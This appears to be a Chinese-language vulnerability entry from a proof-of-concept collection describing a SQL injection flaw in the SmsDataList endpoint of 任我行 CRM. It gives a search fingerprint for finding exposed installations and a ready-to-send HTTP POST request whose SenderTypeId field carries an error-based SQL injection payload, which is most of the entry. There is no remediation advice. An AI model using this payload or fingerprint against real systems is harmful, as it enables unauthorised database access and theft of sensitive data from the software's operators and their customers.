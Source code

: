 # 任我行 CRM SmsDataList SQL注入漏洞

## 漏洞描述

任我行 CRM SmsDataList 接口存在SQL注入漏洞，攻击者通过漏洞可以执行任意数据库语句，获取敏感信息

## 漏洞影响

<a-checkbox checked>任我行 CRM</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"欢迎使用任我行CRM"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1691823257291-6328f717-116f-4bc7-9f49-4bb4673487e1.png)

验证POC

```php
POST /SMS/SmsDataList/?pageIndex=1&pageSize=30 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: 

Keywords=&StartSendDate=2020-06-17&EndSendDate=2020-09-17&SenderTypeId=0000000000' and 1=convert(int,(sys.fn_sqlvarbasetostr(HASHBYTES('MD5','123456')))) AND 'CvNI'='CvNI
```

![img](../../../.vuepress/public/img/1691823280317-687cb156-d2cf-4968-9095-891b429a60a2.png)